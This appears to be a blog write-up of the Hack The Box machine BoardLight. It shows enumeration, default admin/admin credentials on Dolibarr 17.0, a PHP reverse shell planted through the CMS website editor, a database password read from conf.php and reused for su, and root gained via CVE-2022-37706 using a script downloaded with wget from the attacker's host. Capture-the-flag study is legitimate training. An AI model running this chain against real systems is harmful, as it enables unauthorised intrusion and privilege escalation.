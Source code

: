 # HTB: BoardLight

---
title:  "HTB BoardLight Writeup"
date:   2024-05-26 00:30:00 
categories: HTB Machine
tags: Default_user_pass PHP Code Injection Binary_exploitation CVE
---


## Shell as www-data


### Enum

```
─# nmap -sC -sV -p- -T4 --min-rate=9326 --vv board.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 10:51 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:51
Completed NSE at 10:51, 0.00s elapsed
Initiating Ping Scan at 10:51
Scanning board.htb (10.10.11.11) [4 ports]
Completed Ping Scan at 10:51, 0.28s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:51
Scanning board.htb (10.10.11.11) [65535 ports]
Discovered open port 22/tcp on 10.10.11.11
Discovered open port 80/tcp on 10.10.11.11
```

only port 22,80 are open so that's nothing maybe i'll try enum using subdo enum because on board.htb only landing page so i think the vulnerability on subdomain board.htb



```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://board.htb" -H "HOST: FUZZ.board.htb" -c -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 268ms]
web3452                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
web4000                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 334ms]
wishlist                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 332ms]
```

Now add `crm.board.htb` in /etc/hosts


### Identify Vulnerability


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-08-36.png)

The Version of Dolibar is 17.0 so let we research about this vendor to see the vendor vulnerable or not

![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-10-03.png)


 In Dolibarr 17.0.0 with the CMS Website plugin (core) enabled, an authenticated attacker can obtain remote command execution via php code injection bypassing the application restrictions.

 The CMS are vulnerable PHP Code injection but it's authenticated 

 ```
 The default username and password for Dolibarr, a popular open-source ERP and CRM software, often depend on how it was installed and set up. However, the typical default credentials are:

    Username: admin
    Password: admin
```

as you can see here the user pass default is admin .

After i put that's credentials , i successfully login to dashboard


Now click `Website`and > click `+` > and create your site > Import website template > Click Load anything template it's ok > Edit page
> and put your php revshell code


![](https://0xwhoami35.github.io/images/Boardlight/2024-05-26-23-56-38.png)


And click saved


```
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.11] 46260
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:55:52 up 40 min,  4 users,  load average: 0.62, 0.46, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Shell as larissa

After i research on google about "Where the location Dolibarr default config" i got this page

[Dolibar Config Location](https://wiki.dolibarr.org/index.php?title=Configuration_file)


```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

the path is `conf/conf.php`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```


## Shell as root

```
find / -perm -04000 -ls 2>/dev/null 
     2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
```

Do you see what i see?? yupp that's enlightenment binary , i had saw about this binary vulnerability a few month ago and also have tried to download this binary in my ubuntu and trying to priv esc and it's working

[CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)


```
wget http://10.10.14.110:8000/eng.sh
--2024-05-26 08:47:03--  http://10.10.14.110:8000/eng.sh
Connecting to 10.10.14.110:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 707 [text/x-sh]
Saving to: ‘eng.sh’

     0K                                                       100% 41.3M=0s

2024-05-26 08:47:04 (41.3 MB/s) - ‘eng.sh’ saved [707/707]

bash eng.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```
